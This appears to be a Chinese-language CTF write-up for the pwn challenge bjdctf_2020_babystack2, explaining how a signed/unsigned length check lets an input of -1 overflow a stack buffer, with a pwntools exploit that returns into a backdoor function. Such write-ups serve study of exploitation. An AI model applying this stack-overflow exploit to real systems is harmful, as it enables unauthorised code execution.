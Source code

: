 ```yaml
---
title: bjdctf_2020_babystack2
date: 2022-07-14 15:44:21
permalink: /pages/03a3b2/
categories:
  - 网络安全
  - pwn
tags:
  - 
author: 
  name: jimmy
  link: https://github.com/Riam-jimmy
---
```

# bjdctf_2020_babystack2

### 文件保护

```
[*] '/home/root/Desktop/pwn/bjdctf_2020_babystack2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

### 主函数

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[12]; // [rsp+0h] [rbp-10h] BYREF
  size_t nbytes; // [rsp+Ch] [rbp-4h] BYREF

  setvbuf(_bss_start, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 1, 0LL);
  LODWORD(nbytes) = 0;
  puts("**********************************");
  puts("*     Welcome to the BJDCTF!     *");
  puts("* And Welcome to the bin world!  *");
  puts("*  Let's try to pwn the world!   *");
  puts("* Please told me u answer loudly!*");
  puts("[+]Are u ready?");
  puts("[+]Please input the length of your name:");
  __isoc99_scanf("%d", &nbytes);
  if ( (int)nbytes > 10 )
  {
    puts("Oops,u name is too long!");
    exit(-1);
  }
  puts("[+]What's u name?");
  read(0, buf, (unsigned int)nbytes);
  return 0;
}
```

### 思路及分析

- 已知信息

> 有后门程序 backdoor（）
>
> 64 位
>
> 无保护
>
> 溢出点为 read
>
> nbytes 控制后面 read 最大可输入的字节数
>
> 输入的 int 型数不能大于 10

- 分析

> if 处判断的 int 型是有符号型数字
>
> 而 read 处限制的确实无符号型
>
> 那么选择用-1 绕过即可拿到一个非常大的数
>
> 从主函数可知偏移为 0x10+8

### payload

```python
from pwn import *
py=0x10+8
context(os='linux',arch='amd64',log_level='debug')
io=process('./bjdctf_2020_babystack2')
# io=remote('node4.buuoj.cn',25132)
io.sendlineafter('[+]Please input the length of your name:','-1')
backdoor_addr=0x40072A
io.sendlineafter('u name?',flat(['a'*py,backdoor_addr]))
io.interactive()
```
